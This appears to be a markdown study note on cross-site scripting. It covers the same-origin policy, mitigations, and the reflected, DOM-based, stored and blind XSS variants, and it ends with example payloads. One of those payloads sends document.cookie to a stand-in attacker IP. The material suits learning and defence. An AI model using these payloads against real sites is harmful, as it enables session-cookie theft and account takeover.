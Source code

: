 # XSS
## Same Origin Policy
- checks protocol, host, and port of a website
- if all those are the same then the brower allows the two pages to read/write to each other
## Migitations
- Use output encoding when including data into the HTML document
- DOMPurify library
## Reflected XSS
Input to a webpage is reflected back to the user in the response from the webserver
1. user clicks malicious link (www.acme.com?message=`<script>evil()</script>`)
2. the web server by incorporate the value into the HTML document created for the user (Source code: `<h1>Hello {value of message}</h1>`)
3. the web server returns malicious document to the user (`<h1><script>evil()</script></h1>`)
4. user's browser executes the script `<script>evil()</script>`
## DOM-based XSS
User input lands in dangerous part of JS code
1. user clicks malicious object on page (`<span onmouseover='evil();'></span>`)
2. JS parses the input and incorporates into the page using the DOM (Source code: `<h1>Hello {value of message}</h1>`)
3. Browser executes script `evil()`
4. Note: vulnerability is entirely in the browser
5. Look for usage of `innerHTML`
## Persistent/Stored XSS
Malicious JS is stored in the webserver and served to the user upon request
1. Database is poisoned with an insertion of a script (Field: message, value: `<script>evil()</script>`)
2. The application server incorporates the value into the HTML document created for the user (Source code: `<h1>Hello {value of message}</h1>`)
3. Document generated by application: `<h1>Hello <script>evil()</script></h1>`
4. User's browser executes `<script>evil()</script>`
## Blind XSS
- XSS an admin panel that you do not have access to
## Example Payloads
```html
<!-- user alert(document.domain) -->
<script>alert(document.domain)</script>
<!-- self firing -->
<img src=x onerror=alert(1) />
<!-- 192.168.0.192 is hacker's IP and they are listening on port 4444, this lets them access the session cookie -->
<script>new Image().src = "http://192.168.0.192:4444/hacker.php?output="+document.cookie;</script>

```